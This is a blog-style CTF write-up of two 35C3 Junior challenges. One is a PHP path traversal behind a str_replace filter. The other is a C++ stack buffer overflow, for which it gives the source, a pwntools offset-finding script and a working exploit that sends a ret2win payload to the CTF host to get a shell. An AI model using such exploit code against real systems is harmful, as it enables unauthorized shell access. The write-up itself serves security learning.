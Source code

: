 +++
date = 2018-12-30T21:08:42-04:00
tags = ["web", "burp suite", "ctf", "php", "path traversal", "filter bypass"]
category = ["Capture the Flag Writeups"]
draft = false
title = "35c3 Junior CTF writeup"
+++
## 35c3 Junior CTF Pwn: flags
We are presented with the following web page:

![mainpage](/Mainpage.png)

Looking at the code on the page we see that it take the value of the 'Accept-Language' header and uses it to read and display the flag image.

Our goal is to provide the correct input to read the flag located at /flag on the filesystem.
When we input the value for a file that doesn't exist we get the following error:

![error](/Error.png)

This error shows that we are reading the flag images from /var/www/html/flag/.
Now we know that we need to go up 4 directories to read the flag.

Now all we have to do is bypass the str_replace call and preform a directory traversal to read the flag.

![Solution](/Solution.png)

## 35c3 Junior CTF Pwn: 1996
We are given a zip file containing the following files "1996" and "1996.cpp".
1996 is 64 bit ELF binary and 1996.cpp contains its corresponding source code.
During the ctf the target running the binary was at 35.207.132.47:22227.

1996.cpp:
```C++
// compile with -no-pie -fno-stack-protector

#include <iostream>
#include <unistd.h>
#include <stdlib.h>

using namespace std;

void spawn_shell() {
    char* args[] = {(char*)"/bin/bash", NULL};
    execve("/bin/bash", args, NULL);
}

int main() {
    char buf[1024];

    cout << "Which environment variable do you want to read? ";
    cin >> buf;

    cout << buf << "=" << getenv(buf) << endl;
}
```

This code contains a classic stack based buffer vulnerability. At "`cin >> buf;`" user input is read into buf without checking the length of the input. Our goal here is to use this vulnerability to take control of the program's execution flow and jump to the "spawn_shell" function to get a shell on the target.

We can exploit this by feeding the program a long enough input to overwrite the return pointer(rbp+0x8) on the stack with the address of "spawn_shell" and take control of execution pointer (rip) and jump to the code want to execute.

To figure out the length that our input needs to be we will generate a unique sequence of length 2000 to feed to the program. This unique sequence will allow us to figure out the exact length our input needs to be by looking at the value of the rip register when the program crashes.

Generate unique sequence:
```python
#!/usr/bin/env python
from pwn import *

# spawn process
sh = process('1996')
# read process out until we see a question mark followed by a space
print sh.recvline("? ")
# generate unique sequences of length 2000
payload = cyclic(2000)
# send payload to process as input
sh.sendline(payload)
# switch to interactive mode
sh.interactive()
```

The code above will crash the program with the main function returning to 0x6161616e6161616d. We take the last 4 bytes of this value and feed it to the function cyclic_find. This will give us the index (1048) in our unique sequence where the value was found. This index plus another 8 bytes for the address of spawn_shell is the total length our payload needs to be to take control of the program.

Next we disassemble the 1996 binary with radare2 to find the address of the spawn_shell function:
![spawn_shell address](/spawn_shell_addr.png)

With this information we are ready to write our exploit.

exploit:
```python
#!/usr/bin/env python
from pwn import *

sh = remote('35.207.132.47', 22227)
print sh.recvuntil("? ")

payload = cyclic(1048)+p64(0x00400897)

sh.sendline(payload)
sh.interactive()
```
Executing our exploit gives us the following:

![exploit result](/exploit_1996.png)
